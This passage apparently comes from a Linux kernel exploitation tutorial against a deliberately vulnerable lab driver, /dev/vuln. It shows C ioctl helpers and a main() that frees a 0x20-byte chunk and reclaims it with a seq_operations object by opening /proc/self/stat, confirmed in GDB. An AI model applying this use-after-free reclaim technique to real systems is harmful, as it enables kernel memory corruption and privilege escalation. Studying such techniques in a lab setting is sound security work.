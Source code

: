 ```c
}

int kfree() { 
    ioctl(driver_fd, FREE, NULL); 
}

int kread(char *buf) {
  ioctl(driver_fd, USE_READ, buf);
  return 0;
}

int kalloc(size_t size) {
  int val = 0;
  printf("Allocating kernel buffer\n");
  val = ioctl(driver_fd, ALLOC, &size);
  printf("val = %d\n", val);
  if (val < 0) {
    printf("Failed to allocate memory : 0x%08x\n", val);
  }
  return val;
}
```

Now in `main()`:

```c
int main(int argc, char *argv[]) {
    driver_fd = open_dev("/dev/vuln");

    kalloc(0x20);
    kfree();

    int fd = open("/proc/self/stat", O_RDONLY);
}
```

Here’s what happens:
- We first open the device.
- Then allocate a 0x20-sized chunk (matching seq_operations).
- Free it.
- Immediately open /proc/self/stat, which internally allocates a seq_operations object of the same size.

If we set a breakpoint at `kfree()` and inspect the rdi register in GDB, we can see the memory location of the freed object:

![img](/images/kfree.png)

At this point, the memory is zeroed due to `kzalloc`. But after continuing and re-checking the same address, we now see the seq_operations structure:

![img](/images/seq.png)
